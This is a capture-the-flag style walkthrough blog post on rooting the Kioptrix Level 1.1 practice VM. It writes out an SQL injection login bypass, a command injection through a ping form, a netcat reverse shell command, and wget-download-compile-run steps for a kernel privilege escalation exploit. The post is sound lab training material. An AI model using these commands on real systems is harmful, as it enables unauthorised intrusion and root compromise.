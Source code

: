 ```yaml
---
layout: post
title:  "Kioptrix: Level 1.1 (#2)"
date:   2017-03-11
summary: Kioptrix Level 1.1 (#2) walkthrough
---
```


### Setup
Download and unzip the vm, then mount the .vmdk file as storage in your vm config and setup your network settings. Note that this vm should auto detect using DHCP.

Virtualbox:  
Because the vm was made in vmware and I'm using virtual box there was an error on boot up "kernel panic". To resolve this the following was changed:

{% highlight python %}
Storage - removed SATA controller, added HD under IDE controller
Network - adapter type changed to PCnet-PCI II
Unticked audio and usb
{% endhighlight %}

# Kioptrix: Level 1.1 (#2)
To start we need to find the host on the network, to do this I used nmap to do a ping scan on the subnet:

{% highlight python %}
nmap -sn 192.168.56.0-255

Nmap scan report for 192.168.56.102
Host is up (-0.10s latency).
{% endhighlight %}

## Information gathering
Now we know the IP of the host we can use port scanning to see what services are running. With nmap we can also do some banner grabbing, version checking, OS detection and enumeration of services:

{% highlight python %}
nmap -sS -sV -O 192.168.56.102

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 3.9p1 (protocol 1.99)
80/tcp   open  http       Apache httpd 2.0.52 ((CentOS))
111/tcp  open  rpcbind    2 (RPC #100000)
443/tcp  open  ssl/https?
631/tcp  open  ipp        CUPS 1.1
3306/tcp open  mysql      MySQL (unauthorized)
MAC Address: 08:00:27:A0:BB:8F (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop
{% endhighlight %}

The results show a few interesting services, (22)SSH, (80)HTTP, (631)CUPS and (3306)MySQL.

## Enumeration
Focusing on these services we want to enumerate them for further information eg versions, user names and vulnerabilities.

<b>Apache httpd 2.0.52 ((CentOS))</b>  
Has a few vulnerabilities but it looks like RCE requires a bunch of specific config to be present. The server also hosts a web app with a login page.

<https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-66/version_id-15944/Apache-Http-Server-2.0.52.html>

<b>CUPS 1.1</b>  
Looks like this might be vulnerable to CVE-2004-1267 a remote buffer overflow <https://www.exploit-db.com/exploits/24977/> the others found relate to DOS attacks. This might only affect version 1.1.22

## Web app
Navigating to the web app shows a login page, the server is also running MySQL so we will test for SQLi.

	 username = test
	 password = 1'or'1'='1

![login][image1]

The classic SQLi test gives us access to the app.

![command][image2]

From here it looks like an admin web console that allows us to ping machines on the network, this looks like its just running commands and could allow command injection. We can try adding special characters to inject a second command eg `|` or `;`

![results][image3]

Looks like command injection works and we can run commands as the apache user, what we want to do is get access as root or into the database to escalate our privilege.

## Privilege escalation
Because we now have access to the server as the apache user we can dump passwords or try to find a way to escalate our privilege to root via a vulnerability. 

From the nmap scan we did OS detection and only found Linux 2.6.X/Linux 2.6.9 - 2.6.30 this is a bit of a gap but now we have access to a user account we can get the exact version running.

{% highlight python %}
localhost|uname -a

Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
{% endhighlight %}

A quick search comes back with CVE-2009-2698 privilege escalation <https://www.exploit-db.com/exploits/9542/> 

### Remote shell
We should be able to transfer it over, compile and execute it. A quick check to see if we can get a remote shell to make things easier:

{% highlight python %}
localhost; whereis nc
{% endhighlight %}

The response shows it has nc installed at /usr/local/bin/nc we can now try a reverse shell using ncat.

{% highlight python %}
# Set listener on our machine
nc -lvp 8080

# Web command injection for remote nc shell
localhost; /usr/local/bin/nc -e /bin/sh 192.168.56.101 8080
{% endhighlight %}

Now we have a remote shell we can download the file, compile and execute it. First we download the exploit from <https://www.exploit-db.com/exploits/9542/> and run a python command to serve the file.

{% highlight python %}
# Python to serve file
python -m SimpleHTTPServer

# Now on our target reverse shell
# Get the file
cd /tmp
wget http://192.168.56.101/9542.c

# Compile it
gcc 9542.c -o exploit

# Execute it
./exploit
whoami
root
{% endhighlight %}

## Conclusion
Another straight forward boot2root vm. Web app contains SQL injection and command injection gives us access to apache user account which we use to get a remote shell. The OS is vulnerable to privilege escalation CVE-2009-2698 which we leverage to get root.

[image1]:../assets/images/kioptrix-level-1-1-2/login.png
[image2]:../assets/images/kioptrix-level-1-1-2/command.png
[image3]:../assets/images/kioptrix-level-1-1-2/results.png